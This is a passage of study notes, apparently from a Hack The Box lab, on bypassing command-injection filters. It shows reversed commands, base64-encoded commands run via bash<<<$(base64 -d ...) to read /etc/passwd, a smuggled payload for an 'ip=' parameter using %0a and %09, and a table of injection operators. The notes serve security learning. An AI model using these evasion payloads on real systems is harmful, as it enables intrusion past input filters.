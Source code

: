     ```
    	echo 'whoami' | rev 
    output:    imaohw
    ```
    

- right now we prepared our obfuscated command lets see how we will reverse it in our command
    
    ```
    $(rev<<<'here we right the command to deopfuscate via reversing')
    the $() is called sub-shell 
    $(rev<<<'imaohw')
    ```
    

### encoded commands :

```
KareemAlsadeq@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

```
KareemAlsadeq@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

Tip: Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character.

```
ip=27.110.10.3%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEg)
```

so we did it via bash<<<$()

  

  

### evasion tools

## Prevention

### command injection prevention

  

- imp_things
    
      
    
    |   |   |
    |---|---|
    |**Injection Type**|**Operators**|
    |SQL Injection|`'` `,` `;` `--` `/* */`|
    |Command Injection|`;` `&&`|
    |LDAP Injection|`*` `(` `)` `&` `\|`|
    |XPath Injection|`'` `or` `and` `not` `substring` `concat` `count`|
    |OS Command Injection|`;` `&` `\|`|
    |Code Injection|`'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`|
    |Directory Traversal/File Path Traversal|`../` `..\\` `%00`|
    |Object Injection|`;` `&` `\|`|
    |XQuery Injection|`'` `;` `--` `/* */`|